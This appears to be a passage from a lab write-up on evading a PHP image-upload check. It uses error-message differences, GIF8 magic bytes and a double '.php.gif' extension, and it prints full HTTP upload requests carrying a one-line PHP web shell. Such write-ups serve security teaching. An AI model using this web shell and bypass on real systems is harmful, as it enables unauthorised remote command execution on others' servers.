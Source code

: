 ```
$validext = array('.jpg', '.png', '.gif', '.jpeg');
```
So again, we need to trick the application and send an *.gif or whatever file.  
Here we have an unproper error handling issue that help us in detecting where we are making miskakes in crafting our payload.  
In fact, in the first case we have the following error message:
```
echo '<pre>Invalid image file.</pre>';
```
If the second validation fails we have the following error instead:
```
echo "<p>Invalid image file</p>";
```
We can see that one comes with the period and the other don't.  
Now, let's test each cases:  
If we send a .php payload since the file has a text mime type, we get ```Invalid image file.```
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
Instead, if we send a payload with ```GIF8``` magic bytes, the mime type results valid and we get ```Invalid image file```. This means that we fell in the second validation.  
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php"
Content-Type: application/x-php

GIF8
<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
now, we need to give the request a valid extension, like .php.gif, hopefully, if the webserver is misconfigured, we will get remote code execution
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php.gif"
Content-Type: application/x-php

GIF8
<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
```